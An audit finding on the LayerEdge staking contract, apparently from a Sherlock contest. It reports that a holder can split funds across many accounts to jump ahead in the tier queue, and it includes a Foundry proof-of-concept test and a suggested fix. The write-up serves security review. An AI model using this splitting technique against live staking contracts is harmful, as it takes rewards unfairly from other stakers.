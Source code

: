 Ambitious Seafoam Starfish

Medium

# User can split his funds to promote a part of them

## Description

A user who has a large amount of funds can split his funds into several accounts in order to promote some of them and get more benefits. This contradicts the assumption that, as the last person in queue, he should be assigned to Tier 3.

Also, the attacker filling the queue with many of his accounts, creates unfair conditions for new users.



## Impact

- Faster promotion for a participant who has more funds, which contradicts the condition: First-come-first-serve (FCFS) ordering
- Creating a longer queue can create unfair conditions for new users.



## Proof of concept

- The contract has 10 stakers
- The attacker creates 20 different accounts and deposits funds into each one
- Using each new account he stakes the funds
- 5 attacker's accounts have Tier 2, instead of being Tier 3.

[edgen-staking/test/stake/TierBoundaryAndInterestTest.t.sol](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/test/stake/LayerEdgeStakingTest.t.sol#L1)

```solidity
function test_WhalePromotion() public {
        // First set up 5 users
        vm.prank(alice);
        staking.stake(MIN_STAKE);

        vm.prank(bob);
        staking.stake(MIN_STAKE);

        vm.prank(charlie);
        staking.stake(MIN_STAKE);

        vm.prank(dave);
        staking.stake(MIN_STAKE);

        vm.prank(eve);
        staking.stake(MIN_STAKE);

        // Verify initial tiers
        assertEq(uint256(staking.getCurrentTier(alice)), uint256(LayerEdgeStaking.Tier.Tier1));
        assertEq(uint256(staking.getCurrentTier(bob)), uint256(LayerEdgeStaking.Tier.Tier2));
        assertEq(uint256(staking.getCurrentTier(charlie)), uint256(LayerEdgeStaking.Tier.Tier3));

        // Add 5 more users
        vm.prank(frank);
        staking.stake(MIN_STAKE);

        vm.prank(grace);
        staking.stake(MIN_STAKE);

        vm.prank(heidi);
        staking.stake(MIN_STAKE);

        vm.prank(ivan);
        staking.stake(MIN_STAKE);

        vm.prank(judy);
        staking.stake(MIN_STAKE);

        // Now we have 10 users, verify tier counts
        (uint256 tier1Count, uint256 tier2Count, uint256 tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 2); // 20% of 10 = 2
        assertEq(tier2Count, 3); // 30% of 10 = 3
        assertEq(tier3Count, 5); // remaining 5

        dealToken(attacker, MIN_STAKE * 20); // Attacker has 20x the minimum stake

        address[] memory users = new address[](20);
        for (uint256 i = 0; i < 20; i++) {
            users[i] = address(uint160(uint256(keccak256(abi.encodePacked("user", i)))));
            vm.prank(attacker);
            token.transfer(users[i], MIN_STAKE);

            vm.startPrank(users[i]);
            token.approve(address(staking), MIN_STAKE);
            staking.stake(MIN_STAKE);
            vm.stopPrank();
        }

        // Now we have 30 users, verify tier counts where 20 are from attacker
        // and 5 of them are on Tier 2

        (tier1Count, tier2Count, tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 6); // 20% of 30 = 6
        assertEq(tier2Count, 9); // 30% of 30 = 9
        assertEq(tier3Count, 15); // remaining 15

        assertEq(uint256(staking.getCurrentTier(users[0])), uint256(LayerEdgeStaking.Tier.Tier2));
        assertEq(uint256(staking.getCurrentTier(users[4])), uint256(LayerEdgeStaking.Tier.Tier2));

    }
```



## Recommended mitigation

The solution may be to use Stake-Based Fair Queue  where participant priority in a staking system is determined not solely by arrival order, but also by the size of the stake each participant commits.
